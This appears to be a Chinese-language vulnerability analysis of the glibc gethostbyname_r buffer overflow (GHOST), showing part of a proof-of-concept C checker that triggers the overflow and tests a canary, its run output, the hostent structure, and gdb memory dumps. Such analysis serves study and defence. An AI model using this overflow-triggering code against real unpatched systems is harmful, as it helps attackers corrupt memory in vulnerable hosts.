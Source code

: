 ```c
  name[len] = '\0';
 
  retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
 
  if (strcmp(temp.canary, CANARY) != 0) {
    puts("vulnerable");
    exit(EXIT_SUCCESS);
  }
  if (retval == ERANGE) {
    puts("not vulnerable");
    exit(EXIT_SUCCESS);
  }
  puts("should not happen");
  exit(EXIT_FAILURE);
}
```
```
$ file /lib/x86_64-linux-gnu/libc-2.15.so 
/lib/x86_64-linux-gnu/libc-2.15.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), BuildID[sha1]=0x7c4f51534761d69afd01ac03d3c9bc7ccd21f6c6, for GNU/Linux 2.6.24, stripped
$ gcc -g poc.c
$ ./a.out
vulnerable
```
很明显是存在漏洞的。简单解释一下 PoC，在栈上布置一个区域 temp，由 buffer 和 canary 组成，然后初始化一个 name，最后执行函数 gethostbyname_r()，正常情况下，当把 name+\*host\_addr+\*h\_addr\_ptrs+1 复制到 buffer 时，会正好覆盖缓冲区且没有溢出。然而，实际情况并不是这样。

函数 `gethostbyname_r()` 在 `include/netdb.h` 中定义如下：
```c
struct hostent {
    char  *h_name;            /* official name of host */
    char **h_aliases;         /* alias list */
    int    h_addrtype;        /* host address type */
    int    h_length;          /* length of address */
    char **h_addr_list;       /* list of addresses */
}
#define h_addr h_addr_list[0] /* for backward compatibility */

int gethostbyname_r(const char *name,
        struct hostent *ret, char *buf, size_t buflen,
        struct hostent **result, int *h_errnop);
```
- `name`：网页的 host 名称
- `ret`：成功时用于存储结果
- `buf`：临时缓冲区，存储过程中的各种信息
- `buflen`：缓冲区大小
- `result`：成功时指向 ret
- `h_errnop`：存储错误码

执行前：
```
gdb-peda$ x/6gx temp.buffer
0x601060 <temp>:	0x0000726566667562	0x0000000000000000  <-- buffer  <-- host_addr
0x601070 <temp+16>:	0x0000000000000000	0x0000000000000000              <-- h_addr_ptrs
0x601080 <temp+32>:	0x0000000000000000	0x0000000000000000              <-- hostname
gdb-peda$ x/20gx temp.canary-0x10
0x601450 <temp+1008>:	0x0000000000000000	0x0000000000000000
0x601460 <temp+1024>:	0x635f6568745f6e69	0x656e696d5f6c616f  <-- canary
0x601470 <temp+1040>:	0x0000000000000000	0x0000000000000000
```
执行后：
```
gdb-peda$ x/6gx temp.buffer
0x601060 <temp>:	0x0000000000000000	0x0000000000000000  <-- buffer  <-- host_addr
```